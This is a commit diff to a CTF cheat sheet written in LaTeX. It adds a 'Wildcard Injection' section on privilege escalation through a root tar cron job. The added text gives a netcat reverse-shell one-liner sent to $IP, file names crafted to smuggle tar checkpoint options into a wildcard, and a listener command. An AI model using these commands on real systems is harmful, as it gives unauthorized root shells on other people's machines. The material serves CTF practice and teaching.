

Before and after one commit to blanks-hub/CTF-Cheatsheet, a LaTeX document (CTFCheatSheet.tex): part of page 6 of 10, cut at the place of the change, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
added Wildcard Injection

```diff
--- a/CTFCheatSheet.tex
+++ b/CTFCheatSheet.tex
@@ -153,7 +153,22 @@ To check what we can run as SUID:
 \begin{lstlisting}
 	find / -perm -u=s -type f 2>/dev/null
 \end{lstlisting}
-
+\subsection{Wildcard Injection}
+If there is a command using wildcard that is automatically executed by the target (cronjob as root) it may be vulnerable to wildcard injection.\\
+To demonstrate this we assume that there is a tar cronjob that archives every file in a writable folder with the wildcard *.
+\begin{lstlisting}
+	*/2 * * * * *	root tar -zcf /var/backups/docs.tgz /home/user/Documents/*
+\end{lstlisting}
+We now can create some files to modify the tar command and execute a reverse shell with it:
+\begin{lstlisting}
+	echo "mkfifo /tmp/lhennp; nc $IP 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
+	echo "" > "--checkpoint-action=exec=sh shell.sh"
+	echo "" > --checkpoint=1
+\end{lstlisting}
+We can catch the reverse shell with a netcat listener on our machine and we have root!
+\begin{lstlisting}
+	nc -lnvp 8888
+\end{lstlisting}
 privilege escalation is such a large topic that it would be impossible to do it proper justice in this type of room. However, it is a necessary topic that must be covered, so rather than making a task with questions, I shall provide you all with some resources.
 
 General:
```
